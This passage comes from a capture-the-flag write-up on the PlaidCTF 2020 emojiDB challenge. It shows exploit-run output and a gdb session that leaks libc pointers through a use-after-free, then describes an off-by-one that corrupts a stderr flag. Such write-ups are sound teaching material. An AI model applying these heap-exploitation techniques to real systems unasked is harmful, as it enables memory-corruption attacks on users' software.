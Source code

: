 With this bug, we can read the content of a dangling pointer from previous allocation that was already freed. As usual for dlmalloc, we can allocate a chunk, free it, and read the pointers to the main arena in libc. If we do that and set a breakpoint on the print_emoji function, we can see that the content that is about to be sent to us contains pointers:

```
amarsa@SaarAmar-book2:/mnt/c/CTFs/plaid2020/emojiDB/final$ python3 exploit.py
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] start pasten, attach gdb
[*] send ADD_EMOJI_CMD: A (0x400)
[*] send ADD_EMOJI_CMD: B (0x400)
[*] send ADD_EMOJI_CMD: C (0x400)
[*] send DELETE_EMOJI_CMD(2) -- create FD/BK pointers
[*] send PRINT_EMOJI_CMD(2), leak libc pointers
```

And:

```bash
(gdb) b *(0x7f06eac00000+0xe64)
Breakpoint 1 at 0x7f06eac00e64
(gdb) c
Continuing.

Breakpoint 1, 0x00007f06eac00e64 in ?? ()
(gdb) x/5i $rip
=> 0x7f06eac00e64:      test   %rdi,%rdi
   0x7f06eac00e67:      je     0x7f06eac00e80
   0x7f06eac00e69:      mov    0x2011f0(%rip),%rsi        # 0x7f06eae02060 <stdout>
   0x7f06eac00e70:      add    $0x8,%rsp
   0x7f06eac00e74:      jmpq   0x7f06eac00980 <fputws@plt>
(gdb) x/4gx $rdi
0x7fffdd4974f0: 0x00007f06ea7ebca0      0x00007f06ea7ebca0
0x7fffdd497500: 0x0000000000000000      0x0000000000000000
(gdb)
```

Great, we can leak uninitialized data. There's one tiny problem, we need convert back the data we got to its original binary representation, as _print_emoji()_ writes it to stdout using ```fputws``` which will encode the raw data as Unicode. This is easily achieved by calling ```mbstowcs()``` to convert it back. 

Awesome.

## Second primitive – off-by-one in add_emoji, corrupting is_write_to_stderr_enabled

The function _add_emoji_ has an off-by-one bug in the addition of a new emoji. It is supposed to fail when we already have 4 emojis in the array, but it actually checks if we have 5. This off-by-one causes it to write a new emoji_s structure even when the array is full, right after it, which happens to contain the interesting variable _is_write_to_stderr_enabled_. This is that same strange variable that was referenced only in main(). Apparently, if we use this off-by-one, we get the ability to write our commands into stderr. Interesting primitive... but what can we do with it?
